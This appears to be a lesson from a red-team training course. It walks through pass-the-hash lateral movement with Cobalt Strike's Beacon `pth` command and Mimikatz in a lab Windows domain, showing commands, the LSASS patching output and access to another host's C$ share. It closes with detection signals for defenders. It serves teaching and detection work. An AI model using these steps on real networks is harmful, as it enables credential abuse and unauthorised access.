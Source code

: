 Pass the hash is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password.  It works by starting a new logon session with a fake identity and then replacing the session information with the domain, username and NTLM hash provided.

Beacon has a dedicated `pth` command which executes Mimikatz in the background.

  This command requires elevated privileges.

  

First, attempt to list the C$ share of the WEB machine - this will fail because bfarmer is not a local admin there.
```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> ls \\web.dev.cyberbotic.io\c$
[-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```
  

Then run the `pth` command with jking's username and NTLM hash.
```
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c

user	: jking
domain	: DEV
program	: C:\Windows\system32\cmd.exe /c echo 71fb38e2d65 > \\.\pipe\675b08
impers.	: no
NTLM	: 59fc0f884922b4ce376051134c71e22c
  |  PID  1932
  |  TID  6600
  |  LSA Process is now R/W
  |  LUID 0 ; 7479840 (00000000:00722220)
  \_ msv1_0   - data copy @ 000001F6344B3D20 : OK !
  \_ kerberos - data copy @ 000001F6345BD7C8
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001F6344C6128 (32) -> null
```
  

We can see that the command Mimiktaz runs passes the new credentials over a named pipe, which Beacon then impersonates automatically.  We can then attempt to list the C$ share again, which will succeed.
```
beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 18:58:09   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 11:02:25   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     08/31/2022 17:40:32   ProgramData
          dir     08/15/2022 18:31:08   Recovery
          dir     08/30/2022 11:16:24   System Volume Information
          dir     08/30/2022 17:51:08   Users
          dir     08/30/2022 20:19:27   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/01/2022 07:26:41   DumpStack.log.tmp
 384mb    fil     09/01/2022 07:26:41   pagefile.sys
```
  

To "drop" impersonation afterwards, use the `rev2self` command.
```
beacon> rev2self
[*] Tasked beacon to revert token

beacon> ls \\web.dev.cyberbotic.io\c$
[-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```
  

  **OPSEC**  
  
Two opportunities to detect PTH are the R/W handle to LSASS; and looking for the `echo foo > \\.\pipe\bar` pattern in command-line logs.

  

The former is already part of the "Suspicious Handle to LSASS" saved search.  This time we see an access mask of 0x1038.  This is a combination of PROCESS_QUERY_LIMITED_INFORMATION (0x1000), PROCESS_VM_WRITE (0x0020), PROCESS_VM_READ (0x0010) and PROCESS_VM_OPERATION (0x0008).

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/074/46d/801/lsass-rw.png)

  

The latter can be found via the "Suspicious Named Pipe Impersonation" search, which queries process events where the arguments contain "echo", ">" and "\\.\pipe\".

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/11f/d79/42f/named-pipe.png)